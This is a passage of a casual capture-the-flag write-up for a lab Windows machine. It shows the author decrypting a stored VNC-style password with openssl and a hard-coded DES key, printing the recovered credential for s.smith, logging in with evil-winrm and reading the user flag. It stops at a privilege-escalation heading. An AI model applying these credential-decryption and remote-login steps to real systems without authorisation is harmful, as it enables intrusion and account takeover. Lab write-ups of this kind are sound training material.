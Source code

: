hmmm lets remove the `,` ???

```
echo "6bcf2a4b6e5aca0f" | xxd -p -r                               
k�*KnZ� 
```
same output...

welp i bet the characters that are there are correct but something going on with the others that arent so straight forward...

found another tool, hurl:
```
apt install hurl
```

hURL did not work lol 

Now i found this:

- Copy the sequence of hexadecimal numbers that comes after the `hex:` prefix.
- Remove all commas and spaces.
- For the example above, you would copy `D7A514D8C556AADE`.
  and run this:

```
echo -n 6bcf2a4b6e5aca0f | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv
00000000  73 54 33 33 33 76 65 32                           |sT333ve2|
00000008
```
sT333ve2 is pass! wooooo

creds:
```
s.smith: sT333ve2
```

```
evil-winrm -i 10.10.10.182 -u s.smith -p 'sT333ve2'
```

```
*Evil-WinRM* PS C:\Users\s.smith\Desktop> cat user.txt
92516972738cfcc356560255b129553d
```

User PWN!

---

### Priv Esc
